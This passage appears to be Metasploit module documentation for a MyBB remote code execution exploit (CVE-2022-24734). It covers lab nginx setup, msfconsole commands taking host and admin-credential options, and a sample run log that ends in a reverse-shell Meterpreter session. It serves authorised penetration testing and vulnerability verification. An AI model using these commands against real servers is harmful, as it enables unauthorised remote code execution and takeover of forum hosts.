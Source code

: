         location ~ ^/(images|cache|jscripts|uploads)/ {
            access_log off;
        }

        location ~ \.php$ {
            try_files $uri =404;
            fastcgi_split_path_info ^(.+\.php)(/.+)$;
            fastcgi_pass 127.0.0.1:9999;
            fastcgi_index index.php;
            include fastcgi_params;
            fastcgi_param SCRIPT_FILENAME $document_root$fastcgi_script_name;
            fastcgi_param PATH_INFO $fastcgi_path_info;
        }
	}
    ```
  - Run:
    ```
    cd C:\nginx
    start nginx.exe
    ```
- Install MyBB
  - Follow the installation process [here](https://docs.mybb.com/1.8/install/).

## Verification Steps
1. Install the application (see [Installation Steps](#installation-steps))
1. Start msfconsole
1. Do: `use exploit/multi/http/mybb_rce_cve_2022_24734`
1. Do: `run LHOST=<local host IP> RHOSTS=<remote host IP> USERNAME=<MyBB user> PASSWORD=<MyBB password>`
1. You should get a shell.
1. Try again with a different targets

## Options

### USERNAME

The username of a privileged MyBB account. It must have rights to add or update setting (usually with the administrator role)

### PASSWORD

The password of the MyBB account.

## Scenarios

### Windows (target 0 - PHP)
```
msf6 exploit(multi/http/mybb_rce_cve_2022_24734) > run Verbose=true LHOST=192.168.1.44 RHOSTS=192.168.1.215 USERNAME=msfuser PASSWORD=123456
[*] Started reverse TCP handler on 192.168.1.44:4444
[*] Running automatic check ("set AutoCheck false" to disable)
[+] MyBB forum found running at /
[!] The service is running, but could not be validated.
[*] Attempting login
[+] Login successful!
[*] Adding a malicious settings
[*] Adding a crafted configuration setting entry with the payload
[+] Payload successfully sent
[*] Triggering the payload execution
[*] Sending stage (39860 bytes) to 192.168.1.215
[*] Meterpreter session 1 opened (192.168.1.44:4444 -> 192.168.1.215:63777) at 2022-05-23 15:41:40 +0200
```